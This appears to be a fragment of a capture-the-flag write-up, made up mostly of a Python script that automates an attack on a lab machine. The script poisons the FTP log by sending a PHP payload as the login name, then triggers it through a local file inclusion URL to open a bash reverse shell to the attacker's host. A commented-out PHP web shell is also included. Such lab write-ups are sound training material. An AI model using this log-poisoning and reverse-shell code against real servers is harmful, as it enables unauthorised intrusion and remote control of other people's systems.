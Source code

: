 ![](screenshots/rev-shell.png)

Python script to automate the exploit
```py
import ftplib
import requests as r

lhost = '10.10.14.42' #changeme
lport = '4141' #changeme
# payload = """'<?php system($_GET['c']); ?>'"""
payload = f"""'<?php exec("/bin/bash -c 'bash -i >& /dev/tcp/{lhost}/{lport} 0>&1'"); ?>'"""
server = ftplib.FTP()
try:
    server.connect('10.10.10.249', 21)
    server.login(payload, '')
except ftplib.all_errors as e:
    print(e)
except KeyboardInterrupt as e:
    exit('KeyboardInterrupt')

lfi_url = f'http://10.10.10.249/admin../admin_staging/index.php?page=/var/log/vsftpd.log'

try:
    rspn = r.get(lfi_url, timeout=10)
    # print(rspn.text)
except r.exceptions.Timeout:
    exit('Request timeout')
except r.exceptions.RequestException as e:
    exit(e)
except KeyboardInterrupt:
    exit('KeyboardInterrupt')
```
